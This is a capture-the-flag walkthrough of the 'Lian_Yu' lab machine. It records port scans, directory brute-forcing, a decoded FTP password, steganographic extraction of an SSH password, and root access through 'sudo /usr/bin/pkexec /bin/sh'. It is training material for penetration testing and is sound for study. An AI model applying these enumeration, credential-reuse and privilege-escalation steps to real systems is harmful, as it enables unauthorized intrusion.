






# Lian_Yu

## NMAP

```
┌──(kali㉿kali)-[~/Desktop/LianYu]
└─$ sudo nmap -sS -p- 10.10.5.111       
[sudo] password for kali: 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-26 15:25 EDT
Nmap scan report for 10.10.5.111
Host is up (0.052s latency).
Not shown: 65530 closed tcp ports (reset)
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
50861/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 151.26 seconds 

┌──(kali㉿kali)-[~/Desktop/LianYu]
└─$ sudo nmap -sSVC -p 21,22,80,111,50861 10.10.5.111
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-26 15:29 EDT
Nmap scan report for 10.10.5.111
Host is up (0.050s latency).

PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.2
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u8 (protocol 2.0)
| ssh-hostkey: 
|   1024 56:50:bd:11:ef:d4:ac:56:32:c3:ee:73:3e:de:87:f4 (DSA)
|   2048 39:6f:3a:9c:b6:2d:ad:0c:d8:6d:be:77:13:07:25:d6 (RSA)
|   256 a6:69:96:d7:6d:61:27:96:7e:bb:9f:83:60:1b:52:12 (ECDSA)
|_  256 3f:43:76:75:a8:5a:a6:cd:33:b0:66:42:04:91:fe:a0 (ED25519)
80/tcp    open  http    Apache httpd
|_http-title: Purgatory
|_http-server-header: Apache
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          48940/udp6  status
|   100024  1          50861/tcp   status
|   100024  1          52162/tcp6  status
|_  100024  1          57313/udp   status
50861/tcp open  status  1 (RPC #100024)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.35 seconds

```

## Website

Plain webpage. Not cookies, no js, only an image

### Gobuster

```
┌──(kali㉿kali)-[~/Desktop/LianYu]
└─$ gobuster dir -u http://10.10.5.111 -w /usr/share/wordlists/dirb/common.txt                          

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.5.111
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 199]
/.htaccess            (Status: 403) [Size: 199]
/.htpasswd            (Status: 403) [Size: 199]
/index.html           (Status: 200) [Size: 2506]
/server-status        (Status: 403) [Size: 199]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================

┌──(kali㉿kali)-[~/Desktop/LianYu]
└─$ gobuster dir -u http://10.10.5.111 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.5.111
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/island               (Status: 301) [Size: 234] [--> http://10.10.5.111/island/]
/server-status        (Status: 403) [Size: 199]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================

```


### Island 



```
<!DOCTYPE html>
<html>
<body>
<style>
 
</style>
<h1> Ohhh Noo, Don't Talk............... </h1>

<p> I wasn't Expecting You at this Moment. I will meet you there </p><!-- go!go!go! -->

<p>You should find a way to <b> Lian_Yu</b> as we are planed. The Code Word is: </p><h2 style="color:white"> vigilante</style></h2>

</body>
</html>
```

### Gobuster Again

```             
┌──(kali㉿kali)-[~/Desktop/LianYu]
└─$ gobuster dir -u http://10.10.5.111/island -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.5.111/island
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/2100                 (Status: 301) [Size: 239] [--> http://10.10.5.111/island/2100/]
Progress: 29398 / 87665 (33.53%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 29404 / 87665 (33.54%)
===============================================================
Finished
===============================================================
```


### 2100

```
<!DOCTYPE html>
<html>
<body>

<h1 align=center>How Oliver Queen finds his way to Lian_Yu?</h1>


<p align=center >
<iframe width="640" height="480" src="https://www.youtube.com/embed/X8ZiFuW41yY">
</iframe> <p>
<!-- you can avail your .ticket here but how?   -->

</header>
</body>
</html>
```

The video does not play, it got removed from ytb.
The is most likely a file in this directory with the extension .ticket

### Gobuster one more time

```
┌──(kali㉿kali)-[~/Desktop/LianYu]
└─$ gobuster dir -u http://10.10.5.111/island/2100 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x ticket
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.5.111/island/2100
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              ticket
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/green_arrow.ticket   (Status: 200) [Size: 71]
Progress: 20922 / 175330 (11.93%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 20931 / 175330 (11.94%)
===============================================================
Finished
===============================================================
```



```RTy8yhBQdscX```

It looks like a Base.

Trying it as Base58 and in the FTP login got us in. The password is ***!#th3h00d***

## FTP 

No anonymous login

We got a ftp username from the website codeword

```
┌──(kali㉿kali)-[~]
└─$ ftp 10.10.5.111 
Connected to 10.10.5.111.
220 (vsFTPd 3.0.2)
Name (10.10.5.111:kali): vigilante
331 Please specify the password.
Password: 
530 Login incorrect.
ftp: Login failed
ftp> exit
221 Goodbye.
                                                                                                                                                                       
┌──(kali㉿kali)-[~]
└─$ ftp 10.10.5.111 
Connected to 10.10.5.111.
220 (vsFTPd 3.0.2)
Name (10.10.5.111:kali): user
530 Permission denied.
ftp: Login failed
ftp> exit
221 Goodbye.
                 
```


### Vigilante

```
ftp> ls
229 Entering Extended Passive Mode (|||13219|).
150 Here comes the directory listing.
-rw-r--r--    1 0        0          511720 May 01  2020 Leave_me_alone.png
-rw-r--r--    1 0        0          549924 May 05  2020 Queen's_Gambit.png
-rw-r--r--    1 0        0          191026 May 01  2020 aa.jpg
226 Directory send OK.
ftp> pwd
Remote directory: /home/vigilante
ftp> cd /
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||57980|).
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 May 01  2020 bin
drwxr-xr-x    3 0        0            4096 May 01  2020 boot
drwxr-xr-x   16 0        0            2840 Oct 26 15:24 dev
drwxr-xr-x   90 0        0            4096 Oct 26 16:16 etc
drwxr-xr-x    4 0        0            4096 May 01  2020 home
lrwxrwxrwx    1 0        0              31 May 01  2020 initrd.img -> /boot/initrd.img-3.16.0-4-amd64
drwxr-xr-x   15 0        0            4096 May 01  2020 lib
drwxr-xr-x    2 0        0            4096 May 01  2020 lib64
drwxr-xr-x    2 0        0            4096 Apr 25  2015 live-build
drwx------    2 0        0           16384 May 01  2020 lost+found
drwxr-xr-x    3 0        0            4096 Apr 25  2015 media
drwxr-xr-x    2 0        0            4096 Apr 25  2015 mnt
drwxr-xr-x    2 0        0            4096 May 01  2020 opt
dr-xr-xr-x   73 0        0               0 Oct 26 15:24 proc
drwx------    3 0        0            4096 May 01  2020 root
drwxr-xr-x   20 0        0             720 Oct 26 15:29 run
drwxr-xr-x    2 0        0            4096 May 01  2020 sbin
drwxr-xr-x    3 0        0            4096 May 01  2020 srv
dr-xr-xr-x   13 0        0               0 Oct 26 15:24 sys
drwxrwxrwt    7 0        0            4096 Oct 26 16:17 tmp
drwxr-xr-x   10 0        0            4096 May 01  2020 usr
drwxr-xr-x   12 0        0            4096 May 01  2020 var
lrwxrwxrwx    1 0        0              27 May 01  2020 vmlinuz -> boot/vmlinuz-3.16.0-4-amd64
226 Directory send OK.
ftp> 
```

We got access to the entire OS file system from FTP

There were 3 images in his root folder. 2 of the images are fine. 1 of the images seems to be corrupted

```
┌──(kali㉿kali)-[~/Desktop/LianYu]
└─$ file aa.jpg            
aa.jpg: JPEG image data, JFIF standard 1.01, aspect ratio, density 1x1, segment length 16, baseline, precision 8, 1200x1600, components 3
                                                                                                                                                                      
┌──(kali㉿kali)-[~/Desktop/LianYu]
└─$ file Queen\'s_Gambit.png 
Queen's_Gambit.png: PNG image data, 1280 x 720, 8-bit/color RGBA, non-interlaced
                                                                                                                                                                      
┌──(kali㉿kali)-[~/Desktop/LianYu]
└─$ file Leave_me_alone.png 
Leave_me_alone.png: data
```

**Changing the magic bytes with GHEX**





```                                                                                               
┌──(kali㉿kali)-[~/Desktop/LianYu]
└─$ file Leave_me_alone.png  
Leave_me_alone.png: PNG image data, 845 x 475, 8-bit/color RGBA, non-interlaced
```

It is an image with the message: "Just Leave me a lone Here take it what you want **password**"


### Steg decoding

The imaga aa has a message encoded with this password.


```
PK���ÀœP��������M��
� �passwd.txtUT
�Èǧ^Èǧ^Èǧ^ux���������MAjÄ0E÷>ŇîB˜c”R†v3›®Š2Ñ$G2–ÛWž.Zã-þ{_·5üžÚ
öh„ª¸’ÌPÁ5’|5¼à½YÅC^›`†Á6J	Z4i«ˆÕÿßh²À2KÅÉT¬£êÊ®Iñ™âÎÉgÂ3V=ºtb6¯qçGKè‚qŤ:¨…²¡û´gÿpˆ¿ð»n›{xïZ9w&Y¸h³Ysânÿiê6î%6’ÓÕÑ7³Ñó÷Ôæ¾M^™Œ¤ÚŽ˜fä¸Ø³â¡ig»„çùPK×ÜæÜ���M��PK���zœP��������
���� �shadoUT
�Iǧ^Eǧ^Iǧ^ux���������ó5.IÌ(ÍMÌã�PK<ÎÔ���
���PK���ÀœP×ÜæÜ���M��
� ���������¤����passwd.txtUT
�Èǧ^Èǧ^Èǧ^ux���������PK���zœP<ÎÔ���
���� ���������¤4��shadoUT
�Iǧ^Eǧ^Iǧ^ux���������PK������«���“����
```

This may be a zip file



```                                                                
┌──(kali㉿kali)-[~/Desktop/LianYu]
└─$ file decoded       
decoded: Zip archive data, at least v2.0 to extract, compression method=deflate

┌──(kali㉿kali)-[~/Desktop/LianYu]
└─$ unzip decoded 
Archive:  decoded
  inflating: passwd.txt              
  inflating: shado        

┌──(kali㉿kali)-[~/Desktop/LianYu]
└─$ cat passwd.txt   
This is your visa to Land on Lian_Yu # Just for Fun ***


a small Note about it


Having spent years on the island, Oliver learned how to be resourceful and 
set booby traps all over the island in the common event he ran into dangerous
people. The island is also home to many animals, including pheasants,
wild pigs and wolves.
                                                                                                                                                                      
┌──(kali㉿kali)-[~/Desktop/LianYu]
└─$ cat shado     
M3tahuman

```


### SSH

```
┌──(kali㉿kali)-[~/Desktop/LianYu]
└─$ ssh slade@10.10.255.2
slade@10.10.255.2's password: 
                              Way To SSH...
                          Loading.........Done.. 
                   Connecting To Lian_Yu  Happy Hacking

██╗    ██╗███████╗██╗      ██████╗ ██████╗ ███╗   ███╗███████╗██████╗ 
██║    ██║██╔════╝██║     ██╔════╝██╔═══██╗████╗ ████║██╔════╝╚════██╗
██║ █╗ ██║█████╗  ██║     ██║     ██║   ██║██╔████╔██║█████╗   █████╔╝
██║███╗██║██╔══╝  ██║     ██║     ██║   ██║██║╚██╔╝██║██╔══╝  ██╔═══╝ 
╚███╔███╔╝███████╗███████╗╚██████╗╚██████╔╝██║ ╚═╝ ██║███████╗███████╗
 ╚══╝╚══╝ ╚══════╝╚══════╝ ╚═════╝ ╚═════╝ ╚═╝     ╚═╝╚══════╝╚══════╝


        ██╗     ██╗ █████╗ ███╗   ██╗     ██╗   ██╗██╗   ██╗
        ██║     ██║██╔══██╗████╗  ██║     ╚██╗ ██╔╝██║   ██║
        ██║     ██║███████║██╔██╗ ██║      ╚████╔╝ ██║   ██║
        ██║     ██║██╔══██║██║╚██╗██║       ╚██╔╝  ██║   ██║
        ███████╗██║██║  ██║██║ ╚████║███████╗██║   ╚██████╔╝
        ╚══════╝╚═╝╚═╝  ╚═╝╚═╝  ╚═══╝╚══════╝╚═╝    ╚═════╝  #

slade@LianYu:~$ 

```


## PrivEsc

```
slade@LianYu:~$ sudo -l
[sudo] password for slade: 
Matching Defaults entries for slade on LianYu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User slade may run the following commands on LianYu:
    (root) PASSWD: /usr/bin/pkexec
slade@LianYu:~$ 
```




```
slade@LianYu:~$ sudo /usr/bin/pkexec /bin/sh
# whoami
root
```